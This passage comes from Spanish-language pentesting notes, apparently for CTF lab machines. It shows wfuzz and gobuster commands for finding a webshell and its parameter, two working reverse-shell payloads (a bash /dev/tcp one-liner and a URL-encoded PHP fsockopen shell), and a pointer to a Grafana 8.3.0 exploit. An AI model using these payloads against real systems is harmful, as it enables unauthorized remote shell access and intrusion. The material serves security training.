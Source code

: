 ## 7.- WFUZZ 

[+] Buscar un archivo en un ruta con wfuzz:

busca un archivo que contenga alguna palabra del archivo diccionario.txt en la ruta: http://172.17.0.2/hackademy/

wfuzz -c -z file,diccionario.txt --hc 404 http://172.17.0.2/hackademy/FUZZ_archivo.ext


[+] WEBSHELL:

si hacemos fuzzing web:

gobuster dir -t 200 -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,bak,sh,py,js,html -b 403,404 2>/dev/null

y encontramos lo siguiente:

/shell.php (Status:500) [Size:0]

puede que sea una webshel.

para encontrar el parámetro, utilizamos la herramienta:

Herramienta WFUZZ

wfuzz -c --hl=44 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.1/shell.php?FUZZ=id"

una vez encontrado el parámetro, nos ponemos en escucha por netcat y hacemos en la url:

forma 1:

http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/IP-HACKER/443 0>%261"

forma 2:

url encodeamos esto:
php -r '$sock=fsockopen("172.17.0.200",4450);exec("/bin/bash <&3 >&3 2>&3");'

php%20-r%20%27%24sock%3Dfsockopen%28%22172.17.0.200%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

luego lo pegamo en la url después del igual que está después del parámetro vulnerable.

http://172.17.0.2/shell.php?parameter=php%20-r%20%27%24sock%3Dfsockopen%28%22172.17.0.200%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

en la forma 1 puede de que la conexión sea frágil y se rompa en al instante, la forma 2 es más robusta.

-------------------------------------------------------------------------------

## 8.- Siempre es bueno revisar si hay algún exploit para las diferentes versiones, como por ejemplo Grafana 8.3.0 que tiene su exploit para ver diferentes rutas dentro de la máquina donde se ejecuta grafana. 

-------------------------------------------------------------------------------
